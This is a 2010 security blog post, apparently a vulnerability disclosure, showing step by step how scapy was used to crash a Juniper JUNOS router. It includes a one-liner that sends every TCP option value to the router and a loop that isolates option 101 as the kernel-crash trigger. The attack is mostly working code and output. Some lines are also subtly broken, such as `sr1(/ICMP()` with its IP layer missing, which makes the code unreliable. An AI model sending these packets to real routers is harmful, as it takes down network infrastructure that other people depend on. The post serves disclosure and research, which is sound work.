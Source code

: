 ```yaml
---
layout: page
title: Juniper Kernel Crash - scapy Code
categories: 
  - security
  - networking
  - programming
tags: 
  - juniper
  - tcp
  - option-101
  - networking
  - crash
  - junos
  - migrated
author: jrossi
teaser: |
    Code Following the Juniper kernel flaw posts, we received a number of inquiries regarding how 
    to determine the option value to use, however we were somewhat reluctant to provide 
    that level of detail. Now that [exploit code has been published](http://evilrouters.net/2010/01/09/junos-psn-2010-01-623-exploit/) 
    elsewhere, there is little reason not to answer this question.
---
```



On January 6th, we wrote about [a JUNOS flaw](http://praetorianprefect.com/archives/2010/01/junos-juniper-flaw-exposes-core-routers-to-kernal-crash/) 
that caused a kernel crash in Juniper routers and demonstrated 
the [effect in action](http://praetorianprefect.com/archives/2010/01/junos-juniper-kernel-crash-video/) 
in a video. At the time Juniper was not making details of the advisory public, however since 
then [PSN-2010-01-623](http://osvdb.org/ref/61/juniper-PSN-2010-01-623.txt) has shown up on 
the Open Source Vulnerability Database under entry [61538](http://osvdb.org/61538).

Following the Juniper kernel flaw posts, we received a number of inquiries regarding how 
to determine the option value to use, however we were somewhat reluctant to provide 
that level of detail. Now that [exploit code has been published](http://evilrouters.net/2010/01/09/junos-psn-2010-01-623-exploit/) 
elsewhere, there is little reason not to answer this question.

To test all possible TCP options using [scapy](http://www.secdev.org/projects/scapy/) 
(a python based packet manipulation program), first download the latest copy of 
scapy (including all library dependencies) from their 
[Mercurial code repository](http://hg.secdev.org/scapy/) as shown below:

~~~
$ hg clone http://hg.secdev.org/scapy/
$ cd scapy
$ python setup build
$ sudo python setup install
~~~

Start scapy as root:

~~~
$ sudo run_scapy
INFO: Can't import python gnuplot wrapper . Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: No route found for IPv6 destination :: (no default route?)
Welcome to Scapy (2.1.0-dev)
>>>
~~~

We started this particular test by first creating an IP packet with a destination of the Juniper test router instance named 'ipl'.

~~~ python
>>> ipl = IP(dst="172.17.20.102")
>>> ipl
~~~

Initially we tested all TCP options as fast as possible just to see if it was possible to reproduce the 
reported vulnerability (a kernel crash that causes the router to reboot).

~~~ python
>>> send([ipl/TCP(dport=23, options=[(x, "")])/"bye bye" for x in range(256)])
................................................................................................................
................................................................................................................
................................
Sent 256 packets.
~~~

The previous command created 255 packets with every possible TCP option, sent them all 
at once, and the router crashed. While this performed as expected, it only told us 
that we were on the right track (the advisory was correct, an option setting 
crashes the router), however it does not tell us which option.

The scapy tool can send a ping following each test packet to see if the router 
is still up and responding, as demonstrated:

~~~ python
>>> for x in range(255):
...   send(ipl/TCP(dport="22", options=[(x,"")])
...   if not sr1(/ICMP(), retry=-1, timeout=1, verbose=0):
...     print "we have a winner: %s"%(x)
...     break
...
we have a winner: 101
~~~

Now that we have a winner, we know which option value caused the kernel crash 
Juniper reported.
